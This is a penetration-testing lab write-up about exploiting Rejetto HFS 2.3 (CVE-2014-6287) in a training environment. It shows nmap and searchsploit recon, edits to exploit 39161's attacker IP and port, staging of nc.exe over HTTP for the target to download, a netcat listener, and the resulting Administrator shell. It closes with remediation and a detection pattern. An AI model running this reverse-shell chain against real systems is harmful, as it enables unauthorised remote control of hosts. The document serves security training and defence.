# Fixing Exploits

**Classification:** Host & Network Penetration Testing / Exploitation<br>
**Target:** demo.ine.local (10.2.17.38) — WIN-OMCNBKR66MN, Rejetto HFS 2.3 on port 80<br>
**Attacker:** 10.10.41.2 (Kali)

## 1. Executive Summary

Public exploits often don't run as-is — they carry hard-coded IPs/ports, missing
dependencies or usage requirements buried in comments. Here we find a **Rejetto HFS 2.3**
RCE with Searchsploit, read its usage notes (it needs a web server hosting `nc.exe`), **edit
the script** to set our attacker IP/port, host `nc.exe`, and run the fixed exploit to get a
shell as Administrator.

## 2. Recon

```bash
ping -c 4 demo.ine.local      # 10.2.17.38
nmap -sV 10.2.17.38
```

Port 80 — **HttpFileServer httpd 2.3** (Rejetto HFS).





## 3. Finding the Exploit

```bash
searchsploit HTTP File Server 2.3
searchsploit -m 39161          # Rejetto HFS 2.3.x RCE (2)
```





## 4. Reading & Fixing the Script

The header documents the usage and a key requirement.

```
#Usage : python Exploit.py <Target IP> <Target Port>
#EDB Note: You need a web server hosting netcat (http://<attackers_ip>:80/nc.exe)
```



We edit the hard-coded variables to our attacker IP and port.

```python
ip_addr = "10.10.41.2"   # local IP address
local_port = "1234"      # local port number
```



## 5. Staging & Listener

Hosting `nc.exe` over HTTP (the exploit fetches it to the target).

```bash
python -m SimpleHTTPServer 80
```





Starting the Netcat listener.

```bash
nc -nvlp 1234
```



## 6. Running the Fixed Exploit

```bash
python 39161.py 10.2.17.38 80
```







A shell returns as `win-omcnbkr66mn\administrator` in `C:\hfs`.

```cmd
whoami      # win-omcnbkr66mn\administrator
dir
```



## 7. Remediation Recommendations

1. **Patch/replace Rejetto HFS** — CVE-2014-6287 is unauthenticated RCE; it is unmaintained.
2. **Egress filtering & allow-listing** so the exploit can't pull `nc.exe` and run it.
3. **Run the service with least privilege** rather than as Administrator.
4. **Monitor** for HFS `search=%00{.exec|...}` request patterns and `nc.exe` execution.
